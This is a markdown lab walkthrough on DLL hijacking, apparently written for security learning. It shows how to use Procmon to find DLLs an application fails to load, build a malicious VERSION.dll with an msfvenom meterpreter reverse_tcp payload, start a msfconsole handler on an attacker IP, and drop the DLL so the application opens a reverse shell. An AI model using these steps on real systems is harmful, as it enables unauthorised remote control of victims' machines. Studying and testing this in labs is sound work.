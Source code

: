 # DLL Hijacking

DLL files contains executable code that can be used by other applications. When an application needs to use this DLL file, it has to search for it if the absolute path is not provided. If an attacker replaces his own DLL file with the name that the application is searching for, then the application loads the attacker’s DLL and executes the malicious code. This is known as DLL Hijacking Attack.

## Tools Required:
- VMWare, Procmon (Process Monitor), MsfVenom

## Lab Setup
- Create two virtual machine:
  - **Windows OS** for executing exe application *(Victim Machine)*
  - **Kali Linux** for obtain system access using reverse shell handler *(Attacker Machine)*

## POC

> **Step-1: Identifying vulnerable DLLs that we can Hijack.**
 - Start Application >> Open Procmon tool 
 - Apply three filters in Procmon (Menu Filter -> Filter)
```
   1. Process Name = contains = "Select Your Application Name" -> [ Add ]
   2. Path         = contains = ".dll"                         -> [ Add ] 
   3. Result       = contains = "NAME NOT FOUND"               -> [ Add ]
     
      Click [ OK ] for apply filters.
```
     
> **Step-2: Closed the application and Re-open that application so all the process according to filter will show in** ***Procmon***  

> **Step-3: Now find the Dlls which are trying to load from current working application and is not available** ***(e.g: VERSION.DLL)*** 
            Application is trying to load this DLL but not able to find in to the application directory.
            
> **Step-4: Next step is create malicious DLL named VERSION.DLL using** ***MsfVenom (Kali Linux)***

``` 
   $ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.252.130 LPORT=8888 -f dll > VERSION.dll 
```

> **Step-5: Now create reverse shell handler with msfconsole**

```
   $ sudo msfconsole
      
   msf > use exploit/multi/handler

   msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
   payload => windows/meterpreter/reverse_tcp

   msf exploit(multi/handler) > set LHOST 192.168.252.130  (Replace your attacker machine IP i.e Kali Linux IP)
   LHOST => 192.168.252.130

   msf exploit(multi/handler) > set LPORT 8888
   LPORT => 8888

   msf exploit(multi/handler) > exploit  
```
   Done..! 

> **Step-6: Reverse shell handler created, now paste malicious DLL(created through Step-4) in to the application directory and launch application**

   As you can see application is trying to loan the malicious DLL without checking it and we got system reverse shell.

